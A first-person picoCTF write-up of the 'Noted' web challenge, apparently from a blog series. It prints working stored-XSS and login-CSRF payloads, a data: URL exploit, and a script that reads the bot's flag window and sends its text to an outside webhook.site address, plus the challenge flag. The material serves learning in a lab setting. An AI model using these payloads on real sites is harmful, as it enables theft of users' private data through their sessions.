





# Day 23: Noted picoCTF Web Exploitation Writeup

A picoCTF web challenge where a harmless-looking notes app turned into a browser-state crime scene.

Today, we are doing **Noted** by picoCTF.



The challenge description says:

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?  
> Note that the headless browser used for the "report" feature does **not** have access to the internet.

That second line immediately felt important.

A notes app, a report feature, and a headless browser.

That combination usually means one thing:

Some poor bot is going to visit something I submit.

And if a bot is involved in a web CTF, there is a decent chance JavaScript is about to become everyone’s problem.

## Opening the Website

After launching the instance, I opened the website.

It started with a simple login page.



I first tried logging in with:

```text
test:test
```

But the app returned:

```text
User not found
```

So I registered a new account.

After logging in, I landed on a notes page with options to create a new note and report something.

Since this was a notes app, my first thought was:

Can I inject HTML or JavaScript into a note?

So I created a note with this payload:

```html
<script>alert(1)</script>
```

And it worked.



The alert popped.

So we had XSS.

At this point, the app had already dropped the “best practices” act like a knight dropping his sword and pretending he meant to do that.

## Why Basic XSS Was Not Enough

Finding XSS was nice, but it did not solve the challenge.

The JavaScript only ran inside my own account.

That means it was basically self-XSS.

Useful for proving that JavaScript execution is possible, but not enough to steal the flag by itself.

So the real question became:

```text
How do I make the bot run my JavaScript while the bot can see the flag?
```

That is where the source code became important.

## Source Code Clue 1: Notes Were Rendered Unsafely

Inside the templates, the notes were rendered using EJS.

The important part was the unescaped output tag:

```ejs
<%-
```

This matters because EJS has different ways to print data.

Escaped output would treat my payload like text.

So this:

```html
<script>alert(1)</script>
```

would appear as plain text on the page.

But unescaped output allows the browser to treat it as real HTML.

That is why my script executed.

In simple terms:

```text
Escaped output   → shows the script as text
Unescaped output → runs the script as code
```

So now I knew the notes page was vulnerable to stored XSS.

The app was not just keeping notes.

It was keeping loaded weapons with titles.

## Source Code Clue 2: The Report Bot Uses Puppeteer

Next, I opened `report.js`.

The first important line was:

```js
const puppeteer = require('puppeteer');
```

Puppeteer is used to control Chrome automatically.

In CTFs, this usually means there is a bot that opens a browser, visits a page, and does something as a user.

The challenge description already mentioned a headless browser, so this confirmed that the report feature was part of the exploit path.

To test whether the bot actually visited submitted URLs, I used webhook.site.

Webhook.site gives you a unique URL and records any request sent to it.

Basically, it is like setting up a mailbox and waiting to see who knocks.

I submitted my webhook URL through the report feature, and webhook.site recorded the visit.



So the bot was real.

The intern had entered the building.

## Source Code Clue 3: The Bot Creates the Flag Note

The most important part of `report.js` was the bot flow.

First, it launches a headless browser:

```js
browser = await puppeteer.launch({
    headless: true,
    pipe: true,
    args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
    slowMo: 10
});
```

The key part is:

```js
headless: true
```

That means Chrome runs in the background without a visible window.

It also uses incognito mode:

```js
args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox']
```

So the bot uses a fresh browser session. It does not share my cookies or my login session.

Then the bot registers a new random account:

```js
await page.goto('http://0.0.0.0:8080/register');
await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));
```

The username and password are random, so I cannot just guess them and log in manually.

Then the bot creates a new note:

```js
await page.goto('http://0.0.0.0:8080/new');
await page.type('[name="title"]', 'flag');
await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');
```

This is the big one.

The bot creates a note titled:

```text
flag
```

And the content of that note is the actual flag:

```js
process.env.FLAG
```

So the flag is inside the bot’s temporary account.

Not my account.

Not the public page.

Not page source.

The flag is locked in the bot’s notes.

Then after creating the flag note, the bot visits the URL submitted through the report feature:

```js
await page.goto('about:blank')
await page.goto(url);
await page.waitForTimeout(7500);
```

So the flow is:

```text
Bot opens browser
Bot registers random account
Bot creates note containing the flag
Bot visits the URL we reported
Bot waits 7.5 seconds
```

That gave me the real goal.

I needed to make the bot visit a page that could access the flag note while the bot was still logged into that temporary account.

## Understanding the Bot Problem

The `/notes` page shows notes for the currently logged-in user.

So:

```text
If I visit /notes
→ I see my notes

If the bot visits /notes
→ the bot sees the flag note
```

This means I could not just use my own XSS directly.

My note existed in my account.

The flag existed in the bot’s account.

Different sessions.

Different notes.

Same headache.

So I needed a way to make the bot:

```text
Open its own flag note
Then switch into my account
Then run my XSS
Then let my XSS read the still-open flag page
```

That sounds cursed.

Which means it is probably correct.

## Source Code Clue 4: Login Has No CSRF Protection

I also checked the login route.

The important part was:

```js
fastify.post('/login', { schema: userSchema }, async (req, res) => {
    let { username, password } = req.body;
    username = username.toLowerCase();

    let user = await User.findOne({ where: { username }});
    if (user === null) {
        return res.status(400).send('User not found');
    }

    if (!(await argon2.verify(user.password, password))) {
        return res.status(400).send('Wrong password!');
    }

    req.session.set('user', user.username);

    return res.redirect('/notes');
});
```

The key detail:

There was no CSRF protection on `/login`.

That matters because I could create a form that logs the bot into my attacker account.

So if the bot visits my submitted HTML, I can make it submit a login form automatically.

This lets me change the bot’s session from:

```text
bot's random flag account
```

to:

```text
my attacker account
```

This sounds weird, but it is exactly what I needed.

I wanted the bot to first open the flag page, then log into my account, then trigger my stored XSS.

The browser session changes, but the old window can stay open.

That old window becomes the key.

## The Window Trick

The exploit depends on a named browser window.

The idea is:

```js
window.open("http://0.0.0.0:8080/notes", "flag");
```

This opens the bot’s `/notes` page in a window named:

```text
flag
```

At that moment, the bot is still logged into its random account, so `/notes` contains the flag note.

Then I log the bot into my attacker account.

Then I send the bot to my own `/notes` page, where my XSS note runs.

From my XSS, I can reference the already-open window named `flag`:

```js
window.open("", "flag")
```

That does not open a new page.

It grabs the already-open window with that name.

Since both pages are from the same origin:

```text
http://0.0.0.0:8080
```

JavaScript is allowed to read the page content.

So my XSS can read:

```js
window.open("", "flag").document.body.innerText
```

That gives the text from the bot’s flag note window.

At this point, the browser is basically holding two doors open at once, and my JavaScript walks through the wrong one with a clipboard.

## Why a data: URL Was Useful

One hint said:

> There's more than just HTTP(S)!

This pointed toward using a `data:` URL.

A `data:` URL lets us put HTML directly inside the URL itself.

Example:

```text
data:text/html,<script>alert(1)</script>
```

This is useful because I do not need to host an exploit page somewhere else.

I can put the exploit HTML directly into the report box.

That matters because the challenge specifically mentions the headless browser and internet limitations.

So instead of depending on an external site to host the exploit page, I submit the page itself as the URL.

The report box becomes the delivery truck.

A cursed delivery truck, but still.

## Creating the Attacker Account

Before building the final payload, I created my own account.

For example:

```text
username: a
password: a
```

Then inside that account, I created a note containing my XSS payload.

This payload would only run when the URL contained `run_xss`.

```html
<script>
if (location.search.includes("run_xss")) {
    location.href =
    "https://webhook.site/UUID?" +
    encodeURIComponent(
        window.open("", "flag").document.body.innerText
    );
}
</script>
```

Replace `UUID` with your actual webhook.site UUID.

Now let me break this down.

```js
if (location.search.includes("run_xss")) {
```

This checks the URL query string.

So the script only runs if the page URL contains something like:

```text
?run_xss
```

I used this so the payload does not fire every time I open my notes.

Next:

```js
window.open("", "flag")
```

This accesses the already-open window named `flag`.

Earlier, the report payload opens the bot’s notes page using that window name.

So this line grabs that old window.

Next:

```js
.document.body.innerText
```

This reads the visible text from the page body.

Since the old window contains the bot’s notes page, this text includes the flag note.

Next:

```js
encodeURIComponent(...)
```

This makes the text safe to place inside a URL.

If the flag text has special characters, spaces, or symbols, this helps prevent the URL from breaking.

Finally:

```js
location.href =
"https://webhook.site/UUID?" + encoded_text
```

This redirects the bot’s browser to my webhook URL and attaches the stolen text after the `?`.

So webhook.site receives the flag in the request.

In simple words:

```text
Find the old flag window
Read its text
Send that text to webhook.site
```

Very rude JavaScript.

Effective, but rude.

## The Report Payload

Now I needed to submit a payload to the report feature.

The readable HTML version looks like this:

```html
<form action="http://0.0.0.0:8080/login" method="POST" id="f" target="_blank">
    <input name="username" value="a">
    <input name="password" value="a">
</form>

<script>
window.open("http://0.0.0.0:8080/notes", "flag");
setTimeout(() => f.submit(), 1000);
setTimeout(() => location = "http://0.0.0.0:8080/notes?run_xss", 2000);
</script>
```

Replace `a` and `a` with your own attacker username and password.

Now let me break this down too.

First, the form:

```html
<form action="http://0.0.0.0:8080/login" method="POST" id="f" target="_blank">
```

This creates a login form.

The form submits to:

```text
http://0.0.0.0:8080/login
```

It uses:

```text
POST
```

because the login route expects a POST request.

The form ID is:

```text
f
```

So the JavaScript can submit it later with:

```js
f.submit()
```

The target is:

```html
target="_blank"
```

This makes the login form submit in a new window/tab instead of replacing the current page immediately.

Then the username and password fields:

```html
<input name="username" value="a">
<input name="password" value="a">
```

These are my attacker account credentials.

Then this line:

```js
window.open("http://0.0.0.0:8080/notes", "flag");
```

opens the bot’s notes page in a named window called `flag`.

This happens before the bot logs into my account.

So this window still contains the bot’s flag note.

Then:

```js
setTimeout(() => f.submit(), 1000);
```

waits one second and submits the login form.

This logs the bot into my attacker account.

Then:

```js
setTimeout(() => location = "http://0.0.0.0:8080/notes?run_xss", 2000);
```

waits two seconds and sends the bot to my notes page with:

```text
?run_xss
```

That triggers the XSS note I created earlier.

The timing matters because I need the steps to happen in order:

```text
Open flag window first
Then log in as attacker
Then visit attacker notes
Then run XSS
```

If the timing is wrong, the exploit can fail.

This payload was basically browser choreography.

Ugly choreography, but the flag still danced out.

## Final data: URL Payload

For the actual report box, I used it as a one-line `data:` URL:

```text
data:text/html,<form action="http://0.0.0.0:8080/login" method="POST" id="f" target="_blank"><input name="username" value="a"><input name="password" value="a"></form><script>window.open("http://0.0.0.0:8080/notes","flag");setTimeout(()=>f.submit(),1000);setTimeout(()=>location="http://0.0.0.0:8080/notes?run_xss",2000);</script>
```

The `data:text/html,` part tells the browser:

```text
Treat everything after this as HTML.
```

So the bot loads the HTML directly from the submitted URL.

No external exploit hosting needed.

Just one very long URL with questionable morals.

## Getting the Flag

After submitting the report payload, I went back to webhook.site.

After a few seconds, the request came in.



The flag was inside the received request.

## Flag

```text
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Final Exploit Flow

The final flow looked like this:

```text
1. Register attacker account.
2. Create XSS note in attacker account.
3. Report a data: URL to the bot.
4. Bot creates its own account and stores the flag note.
5. Report payload opens bot's /notes page in a window named "flag".
6. Report payload logs bot into attacker account.
7. Report payload sends bot to attacker's /notes?run_xss.
8. XSS runs from attacker note.
9. XSS reads the old "flag" window.
10. XSS sends the flag text to webhook.site.
```

## Closing Thoughts

Noted was not difficult because of the first XSS.

That part was easy.

The hard part was realizing that the XSS alone did not matter unless I could make it run in the right browser state.

The flag lived inside the bot’s temporary account.

So the exploit was not just:

```text
Find XSS.
Run script.
Get flag.
```

It was more like:

```text
Find XSS.
Understand the bot.
Keep the flag page open.
Change the bot session.
Trigger XSS from another account.
Read the old window.
Exfiltrate the text.
```

This challenge taught me that bot-based web challenges are not always about one vulnerability.

Sometimes the real bug is in the browser flow.

The app had stored XSS.

The report bot created the flag.

The login route had no CSRF protection.

The same-origin window access made the flag readable.

Each piece alone looked annoying.

Together, they formed a very unpleasant puzzle.

For the app, I mean.

For me, it was painful but satisfying.

The report bot basically created a secret note, left it open on the desk, changed uniforms, walked into my account, and then let my JavaScript read over its shoulder.

Terrible operational security.

Excellent CTF content.

